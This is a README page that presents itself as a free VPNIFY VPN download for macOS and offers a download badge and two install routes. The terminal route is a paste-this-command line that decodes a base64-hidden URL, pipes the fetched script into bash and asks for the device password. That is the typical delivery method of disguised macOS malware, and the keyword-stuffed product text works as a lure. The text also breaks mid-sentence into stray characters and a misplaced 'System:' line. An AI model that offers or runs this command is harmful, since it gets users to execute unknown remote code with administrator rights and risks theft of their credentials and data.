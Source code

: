 # VPNIFY — Free VPN Download For Mac OS 😎
![logo](https://img.informer.com/icons_mac/png/128/638/638800.png)


VPNIFY is a secure, user-friendly VPN solution for Mac OS, offering fast and reliable connections to protect your online privacy. Follow the instructions below to download and install VPNIFY for free on your Mac.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/vpnifymac)

If the download button doesn’t work, follow the terminal installation instructions below.

## 📦 How to Install VPNIFY For Mac OS

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and drag the VPNIFY app from the installer window to your Applications folder.
3. Open a terminal and navigate to the Applications folder using `cd /Applications`.
4. Run the VPNIFY app by typing `./VPNIFY.app/Contents/MacOS/VPNIFY` and press "Return."
5. Enter your device password in the prompt (if you don’t have a password, leave it blank).

[![Installation Demo](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a Command in the Terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```

2. Open the terminal on your Mac and paste the command, then press "Return."
3. Enter your device password and confirm the installation.

[![Terminal Installation Demo](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get with VPNIFY

- 🛡️ **Enhanced Privacy**: VPNIFY encrypts your internet connection, keeping your data safe from prying eyes.
- 🌐 **Global Server Access**: Connect to servers in over 50 countries for unrestricted browsing.
- ⚡ **High-Speed Connections**: Enjoy fast, lag-free streaming and browsing with optimized servers.
- 🔒 **No-Logs Policy**: VPNIFY ensures your online activities are never tracked or stored.
- 📱 **User-Friendly Interface**: Intuitive design makes it easy to connect with a single click.
- 🕒 **24/7 Support**: Access round-the-clock customer support for any installation or usage queries.

## About VPNIFY

VPNIFY is a powerful VPN application designed specifically for Mac OS, delivering a seamless and secure browsing experience. With its robust encryption protocols, VPNIFY ensures your online activities remain private, whether you're browsing at home or on public Wi-Fi. By leveraging advanced technology, VPNIFY provides a free VPN download option that’s accessible to all Mac users, making it a top choice for those seeking a reliable VPN for Mac. The software is lightweight, ensuring it doesn’t slow down your device while offering premium features like high-speed connections and global server access.

One of VPNIFY’s standout features is its ability to bypass geo-restrictions, allowing users to access content from streaming platforms, social media, and websites worldwide. Whether you’re traveling or simply want to explore content from another region, VPNIFY’s global server network ensures smooth and unrestricted access. The free VPN for Mac is optimized for macOS, ensuring compatibility with the latest versions, including macOS Ventura and beyond. Its no-logs policy guarantees that your browsing history remains private, aligning with the growing demand for secure VPN solutions.

The installation process for VPNIFY is straightforward, whether you choose the .dmg file or the terminal command method. This makes it an ideal choice for both tech-savvy users and beginners looking for a free VPN download for Mac. The software’s intuitive interface allows you to connect to a server with a single彼此

System: single click, minimizing the need for complex configurations. VPNIFY also offers automatic updates to ensure you’re always running the latest version, providing a hassle-free experience for users seeking a secure VPN for Mac.

**Why Choose VPNIFY?**  
VPNIFY stands out as a top-tier VPN for Mac due to its blend of speed, security, and ease of use. Unlike many other free VPNs, VPNIFY offers premium features without compromising on performance. Its commitment to user privacy, high-speed servers, and compatibility with macOS make it a preferred choice for those searching for a free VPN for Mac. Whether you’re protecting your data on public Wi-Fi or accessing region-locked content, VPNIFY delivers a reliable and secure solution.

## 🖼 Preview

![VPNIFY Dashboard](https://vpnifyapp.com/images/vpnify-desktop3.png)  
*Clean and intuitive VPNIFY dashboard for easy server selection.*

![Server Selection](https://www.vpnfan.com/wp-content/uploads/2021/07/vpnify.jpg)  
*Choose from a wide range of global servers with VPNIFY.*


## 🔍 Tags

vpnify, VPNIFY download, VPNIFY free, VPNIFY mac, VPNIFY for mac, VPNIFY for mac os, VPNIFY free download, VPNIFY download free, free VPNIFY, VPNIFY software, download VPNIFY, download vpnify free, VPNIFY vpn mac
